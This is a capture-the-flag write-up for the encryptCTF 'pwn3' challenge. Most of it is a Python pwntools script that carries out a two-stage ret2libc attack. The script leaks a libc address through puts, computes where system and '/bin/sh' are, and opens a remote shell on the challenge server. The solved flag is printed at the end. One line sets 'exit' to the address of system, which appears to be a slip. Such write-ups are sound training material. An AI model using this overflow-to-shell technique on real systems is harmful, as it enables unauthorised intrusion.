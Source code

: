 ## encryptCTF: pwn3
##### *tl;dr: ret2libc leak*
#### Sooo uhm, I don't have the binary for the challenge with me, as well as the other material I needed to write my writeup, but I do have a saved copy of my exploit code tho HAHAHAHHAHAA. Basically, we just leak addresses from the server, compute the address for the puts function, run the offset against this [libc database](https://libc.blukat.me/), compute the libc base, get the addresses for system, exit, and the /bin/sh string to get a shell. For a better explanation of the exploit process, here is ar33zy from hackstreetboys [writeup](https://medium.com/hackstreetboys/encryptctf-2019-pwn-write-up-4-of-5-6fc5779d51fa). Anyways, here is my exploit code:
##### exploit.py
```python
from pwn import *

#: Connect to challenge server
HOST = '104.154.106.182'
PORT = 4567
p = remote(HOST,PORT)
libc = ELF('libc6_2.19-0ubuntu6.14_i386.so')
binary = ELF('./pwn3')

#: Exploit code; Stage 1
offset = 'A' * 140

libc_puts_offset = libc.symbols['puts']
puts_plt = binary.plt['puts']
puts_got = binary.got['puts']
main = binary.symbols['main']

exploit = offset + p32(puts_plt) + p32(main) + p32(puts_got)

#: Send payload; Stage 1
print(p.recvline())
print(p.recvline())
print(p.recvline())
p.sendline(exploit)
puts_leaked = u32(p.recvline()[:4])
libc_base = puts_leaked - libc_puts_offset
print('Libc base address: ' + hex(libc_base))

#: Exploit code; Stage 2
offset = 'A' * 132
system = libc_base + libc.symbols['system']
exit = libc_base + libc.symbols['system']
bin_sh = libc_base + libc.search('/bin/sh').next()
exploit = offset + p32(system) + p32(exit) + p32(bin_sh)

#: Send payload; Stage 2
p.sendline(exploit)
p.interactive()
```
#### Running it against the challenge server, we get our flag
```
encryptCTF{70_7h3_C3nt3R_0f_L!bC}
```
